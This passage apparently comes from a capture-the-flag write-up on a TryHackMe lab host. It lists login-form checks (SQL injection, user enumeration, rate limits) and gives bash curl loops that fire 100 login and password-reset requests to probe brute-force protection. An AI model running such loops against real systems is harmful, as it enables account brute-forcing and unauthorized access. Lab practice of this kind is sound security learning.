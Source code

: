 **A few things to do right away to form fields without even starting up any tools**:
1. Check for SQL injection vulnerabilities (or [Bobby Tables](https://xkcd.com/327/?ref=0x4d.ghost.io))
2. Trying random emails to find indications of different responses for an unregistered vs. registered emails
	- Are the error messages generic, or "**This email/user does not exist"** kind of messages?
3. Check for brute-force protections by simulating a few requests in short succession
	- Does it lock me out or throw CAPTCHAs at me?
4. Check whether the http responses expose anything they should not.
	- Any redirect headers, hints for the target page once login is successful, etc.
	- (You wouldn't believe what i found in HTTP requests over time - yes i am looking at you, outlook credentials in a regular API response of a community application)

### Brute-Force Protections 

After no interesting findings in step one and two, we try step 3

- I fired up a bash script to attempt to login 100 times in a row with random creds
```bash
for i in {1..100}; do
  printf "[%d] http " $i
  curl -s -w '%{http_code} size=%{size_download}\n' 'http://hammer.thm:1337/' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    -H 'Cache-Control: max-age=0' \
    -H 'Connection: keep-alive' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Cookie: PHPSESSID=r808bg0f5uarqscv7t3ues268a' \
    -H 'DNT: 1' \
    -H 'Origin: http://hammer.thm:1337' \
    -H 'Referer: http://hammer.thm:1337/' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
    --data-raw 'email=testy%40tester.com&password=51353245711' \
    -o /dev/null \
    --insecure
done
```
- shell script adds response sizes to the output to check for deviations.
- failed logins attempts return `http 200`
- No change in the http code or size

Now, to try same thing on `.../reset_password.php`

```bash
for i in {1..100}; do
  printf "[%d] http " $i
  curl -s -w '%{http_code} size=%{size_download}\n' 'http://hammer.thm:1337/reset_password.php' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    -H 'Accept-Language: en-US,en;q=0.9' \
    -H 'Cache-Control: max-age=0' \
    -H 'Connection: keep-alive' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Cookie: PHPSESSID=7acl7dfp6h1hpm2pln53qg4oqn' \
    -H 'DNT: 1' \
    -H 'Origin: http://hammer.thm:1337' \
    -H 'Referer: http://hammer.thm:1337/reset_password.php' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' \
    --data-raw 'email=testy%40tester.com' \
    -o /dev/null \
    --insecure
```